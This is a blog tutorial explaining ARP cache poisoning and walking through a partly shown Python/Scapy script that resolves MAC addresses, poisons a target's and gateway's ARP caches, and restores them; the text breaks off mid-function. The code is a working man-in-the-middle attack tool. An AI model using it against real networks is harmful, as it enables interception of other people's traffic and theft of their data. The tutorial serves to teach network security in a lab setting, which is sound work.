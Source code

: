 I talked about [ARP cache poisoning using command line arpspoof](http://bt3gl.github.io/wiresharking-for-fun-or-profit.html) in my guide about Wireshark. Here we are going to see how to implement similar tool using Scapy.

ARP cache poisoning works by convincing a target machine that we are the gateway, and then convincing the gateway that all traffic should pass through our machine.

Every machine in a network maintains an ARP cache that stores the recent MAC addresses that match to IP addresses on the local network. All we need to do is to poison this cache with controlled entries.

The best way to test this is using a Windows virtual machine (take a look at [this guide I wrote](http://bt3gl.github.io/setting-up-a-playing-environment-with-virtual-machines.html)).

Before the attack, go to the Windows box, open the terminal (```cmd```) and check the IP and gateway IP address with```ipconfig```. Then check the associated  ARP cache entry MAC address with ```arp -a```:

![](http://i.imgur.com/ME069uS.png)

Our ARP poisoning script (based on [Black Hat Python](http://www.nostarch.com/blackhatpython)) will perform the following steps:

1. Define constant values, set our interface card, and turn off output.

2. Resolve the gateway and target MAC address. The function **get_mac** use the **srp** method to emit an ARP request to an IP address to resolve the MAC address.

3. Start the poison thread to perform the ARP poisoning attack. This will start the sniffer that captures the packets. The function **poison_target** builds ARP requests for poisoning both the target IP and the gateway (in a loop).

4. Write out the captured packets and restore the network. The function **restore_target** sends out the ARP packets to the network broadcast address to reset the ARP caches of the gateway and target machines.


```python
from scapy.all import *
from scapy.error import Scapy_Exception
import os
import sys
import threading
import signal

INTERFACE       =   'wlp1s0'
TARGET_IP       =   '192.168.1.107'
GATEWAY_IP      =   '192.168.1.1'
PACKET_COUNT    =   1000

def restore_target(gateway_ip, gateway_mac, target_ip, target_mac):
    print '[*] Restoring targets...'
    send(ARP(op=2, psrc=gateway_ip, pdst=target_ip, hwdst='ff:ff:ff:ff:ff:ff', \
        hwsrc=gateway_mac), count=5)
    send(ARP(op=2, psrc=target_ip, pdst=gateway_ip, hwdst="ff:ff:ff:ff:ff:ff", \
        hwsrc=target_mac), count=5)
    os.kill(os.getpid(), signal.SIGINT)

def get_mac(ip_address):
    response, unanswered = srp(Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(pdst=ip_address), \
        timeout=2, retry=10)
    for s, r in response:
        return r[Ether].src
    return None

def poison_target(gateway_ip, gateway_mac, target_ip, target_mac):
    poison_target = ARP()
    poison_target.op = 2
    poison_target.psrc = gateway_ip
```